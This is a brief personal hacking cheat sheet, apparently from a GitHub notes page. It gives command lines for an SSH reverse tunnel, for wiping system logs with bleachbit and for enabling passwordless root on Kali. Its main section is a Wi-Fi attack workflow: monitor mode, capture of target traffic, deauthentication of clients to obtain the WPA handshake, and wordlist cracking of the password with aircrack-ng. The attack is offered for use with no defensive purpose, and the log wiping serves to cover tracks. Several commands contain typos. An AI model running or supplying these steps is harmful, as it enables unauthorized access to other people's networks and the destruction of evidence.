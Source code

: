 
* ___To be continue ...___


---

> # __MyNotes-MyCheatSheet__
---

# __SSH Port Forwarding__

```
ssh-keygen [ ENTER ] [ ENTER ] [ ENTER ]
ssh -R 80:localhost:(portToForward) localhost.run
```
---

# __WipeOut all.logs__
```
sudo apt install bleachbit
sudo bleachbit -c --preset
```
---
# __Kali NoPassword__

```
sudo dpkg-reconfig kali-grant-root
```
---

# __Wifi-Hack's__

````
iwconfig #it show's interface
airmon-ng (start or stop) (interface) #to start or stop monitermode
airmon-ng (moniterMode interface) #it will display all wifi's network  CTRL+C
airodump-ng -bssid (targetWifiMAC) --channel (ChannelNo.) (interface)  #it moniter all data about TargetWifi CTRL+C
airodump-ng -bssid (targetWifiMAC) --channel (ChannelNo.) --showack -w /path/anyName (interface) #it will capture all date and saved automatically  CTRL+C
---OPEN NEW TERMINAL---
aireplay-ng -0 20 -a (targetWifiMAC) -c (Randam client MACaddrs)(interface) #it will deauth the client and we will get the Wpa_Handshake

     -0 <= is deauth
     -a <= access point
     -c <= client MACaddrs 

aircrack-ng (/aptureFile/path/*.cap) -w /part/wordlist #it will carck passwd
````
* # __airgeddon__
